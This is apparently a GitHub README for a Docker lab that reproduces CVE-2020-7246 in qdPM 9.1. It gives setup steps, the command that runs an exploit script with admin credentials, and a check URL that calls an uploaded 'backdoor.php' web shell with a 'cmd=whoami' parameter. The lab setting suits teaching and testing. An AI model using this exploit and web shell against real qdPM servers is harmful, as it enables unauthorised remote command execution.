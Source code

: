 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg)

Setting up SQL Server.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg)

Create Admin login/password.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
